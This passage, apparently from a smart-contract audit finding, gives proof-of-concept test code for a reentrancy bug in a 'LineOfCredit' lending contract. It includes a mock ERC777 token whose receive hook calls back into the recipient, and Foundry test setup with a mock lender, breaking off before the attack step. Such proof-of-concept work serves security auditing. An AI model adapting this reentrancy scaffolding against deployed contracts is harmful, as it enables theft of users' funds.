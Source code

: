         function _callTokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes memory userData,
            bytes memory operatorData,
            bool requireReceptionAck
        ) private {
            address implementer = registry[to];
            if (implementer != address(0)) {
                IERC777Recipient(implementer).tokensReceived(operator, from, to, amount, userData, operatorData);
            }
        }
    
        function mockAddToRegistry() external {
            registry[msg.sender] = msg.sender;
        }
    
    }

Add the following imports to `LineOfCredit.t.sol`:

    import { MockLender } from "../mock/MockLender.sol";
    import { Token777 } from "../mock/Token777.sol";

Add the following test to `LineOfCredit.t.sol`:

        function test_reentrancy() public {
            uint256 lenderOneAmount = 1000;
            uint256 lenderTwoAmount = 1000;
            Token777 tokenUsed = new Token777();
            // Create lenderController 
            address lenderOneController = address(0xdeadbeef);
            address lender2 = address(0x1337);
    
            // Create lenderContract 
            vm.startPrank(lenderOneController);
            MockLender lenderOneContract = new MockLender(address(line));
            vm.stopPrank();
    
            // give lenders their lend amount of token
            tokenUsed.mint(address(lenderOneContract), lenderOneAmount);
            tokenUsed.mint(address(lender2), lenderTwoAmount);
    
            // add support of the token to the SimpleOracle
            oracle.changePrice(address(tokenUsed), 1000 * 1e8); // 1000 USD
    
            // Borrowers adds credit line from lender2
            vm.startPrank(borrower);
            line.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed), address(lenderOneContract));
            vm.stopPrank();
    
            // LenderOne adds credit line
            vm.startPrank(lenderOneController);
            lenderOneContract.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed));
            vm.stopPrank();
    